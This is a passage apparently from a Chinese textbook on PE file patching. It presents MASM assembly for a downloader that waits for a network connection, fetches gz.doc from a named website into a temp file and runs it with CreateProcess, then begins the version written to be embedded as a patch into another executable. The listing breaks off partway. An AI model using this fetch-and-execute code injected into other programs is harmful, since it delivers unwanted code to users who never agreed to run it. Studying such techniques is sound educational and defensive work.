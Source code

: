 ```assembly
            addr @stProcessInformation  
  .if eax==0
    invoke CloseHandle,@stProcessInformation.hThread
    invoke CloseHandle,@stProcessInformation.hProcess               
  .endif  
  ret  
_downAndRun endp       


start:
    ;测试网络是否连通
    .while TRUE
      invoke Sleep,1000;睡眠1秒
      invoke InternetGetConnectedStateEx,\
                                 addr lpDWFlag,\
                                 addr lpCN,256,0
      .break .if eax
    .endw
    invoke _downAndRun,addr lpszURL
    db 0E9h,0ffh,0ffh,0ffh,0ffh
    end start

```

------

==行110～117是一个循环，主要用来测试网络是否联通。如果联通，则开始下载由URL地址指定的网络文件==。==下载时，每次读取200h个字节，并写入到预先生成的临时文件中==；==最后，通过调用`CreateProcess`函数来运行下载后的程序==。

本程序试图联接www.jntljdx.com网站，并从该网站下载文件gz.doc。

> 注意　在实际测试中，读者可以在互联网的某个网站上部署一个可执行文件，然后修改代码中指定要下载的URL地址。

## 17.1.3　补丁程序的源代码

经过补丁功能代码的反复调试，如果没有错误，则可以进行补丁代码的编写。代码清单17-2是网络文件下载器的补丁代码，使用了本书13.3节介绍的嵌入补丁框架。这里只选取其中的一小部分，完整的补丁程序请参考随书文件chapter17\a\patch.asm。

代码清单17-2　从网络下载文件的补丁代码片断（chapter17\a\patch.asm）

------

```assembly
;------------------------
; 补丁功能部分
; 传入三个参数：
;      _kernel:kernel32.dll的基地址
;      _getAddr:函数GetProcAddress地址
;      _loadLib:函数LoadLibraryA地址
;------------------------
_patchFun  proc _kernel,_getAddr,_loadLib

    ;------------------------------------------------------
    ; 补丁功能代码局部变量定义
    ;------------------------------------------------------
    pushad
    ;测试网络是否连通
    .while TRUE
      push 1000
      mov edx,_sleep[ebx] ;睡眠1秒
      call edx

      push 0
      push 256
      mov edx,offset lpCN
      add edx,ebx
```